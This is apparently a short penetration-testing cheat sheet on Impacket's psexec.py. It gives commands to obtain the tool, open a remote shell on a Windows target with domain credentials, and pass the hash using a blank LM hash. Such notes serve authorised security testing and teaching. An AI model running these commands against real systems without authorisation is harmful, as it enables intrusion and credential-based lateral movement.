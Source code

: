```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/psexec.py --help
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py
```

#### Shell with psexec.py
```python - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```bash  - kali
psexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
